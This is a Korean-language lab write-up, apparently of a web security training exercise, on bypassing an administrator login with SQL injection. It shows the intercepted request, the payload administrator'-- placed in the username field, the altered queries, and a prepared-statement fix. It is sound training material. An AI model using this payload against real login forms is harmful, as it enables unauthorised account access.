

# Lab: SQL injection vulnerability allowing login bypass

## 개요
- 취약점: SQL Injection
- 난이도: Apprentice
- 목표: administrator 계정 로그인 우회

## 공격 흐름
1. 로그인 요청 가로채기
- Burp Suite Proxy 에서 로그인 요청 확인
```http
POST /login HTTP/2
...
csrf=0JBDs2z1CrErq3lob7nrttBLcefq8hk2&username=administrator&password=1234
```
   


2. Payload 삽입
```sql
administrator'--
```
- username 값을 위와 같이 수정
- password 에는 아무 값이나 삽입

3. 최종 요청
```http
POST /login HTTP/2
...
csrf=0JBDs2z1CrErq3lob7nrttBLcefq8hk2&username=administrator%27--&password=test
```

4. 로그인 우회 성공
- '--' 이후 SQL 구문이 주석처리 되어 비밀번호 검증 로직이 무시된다.

## 원리 분석
1. 기존 SQL 쿼리
```sql
SELECT * FROM users
WHERE username='administrator'
AND password='test'
```

2. SQL Injection 공격 후
```sql
SELECT * FROM users
WHERE username='administrator'--'
AND password='test'
```
- `AND password='test'`부분이 주석처리 된다.

## 대응 방안
1. Prepared Statement 사용
- Prespared Statement 를 사용하면 사용자 입력값을 제외한 부분은 미리 컴파일 되기 때문에 사용자 입력값을 이용해 SQL 쿼리를 조작하는 것이 불가능 하다.
```python
cursor.execute(
  "SELECT * FROM users WHERE username=%s AND password=%s", (username, password)
)
```